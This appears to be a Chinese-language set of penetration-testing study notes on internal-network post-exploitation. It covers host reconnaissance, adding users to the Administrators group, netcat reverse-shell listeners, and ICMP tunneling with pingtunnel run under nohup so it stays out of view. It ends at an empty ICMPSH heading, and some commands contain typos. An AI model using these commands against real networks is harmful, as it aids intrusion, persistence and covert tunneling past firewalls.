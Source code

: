 > 内网渗透的第一步：内网信息收集

## 判断网络环境

#### whoami

#### whomai /user

> 1000：+ 普通用户
>
> 500：administrator
>
> 516：域控
>
> 501：guest
>
> 544：域管理员

### net

```cmd
net localgroup 							  # 查看当前所有用户组

net localgroup Administartors			  # 查看指定用户组下的所有用户

net localgroup Administrators '用户名' /add	# 直接将某一个用户添加到某一个组中 
```

#### net share

> 一般用于内网传播木马

#### net user

```cmd
net user '用户名' '密码' /add
```

#### arp -a

查看当前主机的arp缓存表

## 通过TTL初步判断操作系统

| 操作系统        | TTL  |
| --------------- | ---- |
| Windows NT/2000 | 128  |
| Windows 95/98   | 32   |
| unix            | 255  |
| linux           | 64   |
| Windows 7       | 64   |

## 存活主机探测

条件是防火墙没开，基本上不会使用

```cmd
for /1 %i in (1,1,254) do @ping -n 1 -w 1 192.168.1.%i 
```

#### 一把梭的操作（不常用（没鸟用））

```cmd
@echo off
whoami
arp -a
net user net localgroup
pause
```

> `route print`

# 隧道

## 反弹shell

> `webshell`的定义：web下的执行环境

攻下了一台机器，开放了一个端口就会有

正向连接：攻击者连接目标

#### 正向不可用的情况

* 客户不一定中了我的马

* 防火墙的限制，目标只能出，不能入

* 病毒、木马、受害者什么时候去执行、网络环境，都是未知的



所以引入了一个反弹shell的概念

攻击者去连接我们的服务器



## nc（netcat）

网络工具中的大保健，收发包

一些参数

```
-l listen 监听
-vv 详情信息
-p port端口
-n 以ip的形式去连接地址
-c| -e 执行命令（危险参数）
```

使用方法

> `nc -lvvp 1234`

监听1234的端口，然后再client端输入serverIP + 监听端口

#### 安装方法

```bash
yum list glibc*
wget https://sourceforge.NET/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gz
tar zxvf netcat-0.7.1.tar.gz
cd netcat-0.7.1
./configure
make
make install
```

测试了好像不太行？

#### 服务端连接方法

```bash
nc serverip proy
```

## 隧道 

在服务器的内网的时候，别人的服务器往往不可能存在一些我们需要的扫描工具，这个给时候就得使用隧道来进入对方的内网。

搭建隧道的前提要先判断对方的出网、入网情况

### 隧道的种类

有交互就能搭建隧道

> 应用层：`HTTP`、`HTTPS`、`DNS`、`SSH`
>
> 传输层：`TCP`、`UDP`
>
> 网络层：`ICMP`、`GRE`

什么是有交互，哪怕是ping也可以算是一种交互的过程。

### 判断网络连通性

防火墙

> ICMP：`ping` 能ping通就能搭建隧道
>
> HTTP：`wget`、`curl`
>
> TCP、`UDP：nc-zv` / `nc -zvu`
>
> DNS：`nslookup`、`dig`

## ICMP隧道搭建

防火墙如果没有开放任何端口号的情况下依旧可以使用ICMP进行搭建隧道

两个工具

### Pingtunnel

#### 通用参数

> type：client | server
>
> key：密钥
>
> nolog：不保留日志

#### client参数

> -l：本地端口，发送到本地端口的流量都会被转发
>
> -s：服务器地址ip
>
> -t：目的地址，服务器地址 + 端口
>
> -tcp：是否转发tcp 默认为0

`server`端使用方法

```bash
pingtunnel -type server -key 1234
```

`client`端使用方法

```shell
pingtunnel -type client -key 1234 -s x.x.x.x -l :777 -t serverIP:proy -tcp 1
```

初步测试两条隧道的联通没有问题之后就可以加上一个参数，使在shell端的log全部隐藏到后台

```bash
nohup pingtunnel -type server -key 1234 &
```



```bash
nohup pingtunnel -type client -key 1234 -s x.x.x.x -l :777 -t serverIP:proy -tcp 1 &
```



### ICMPSH



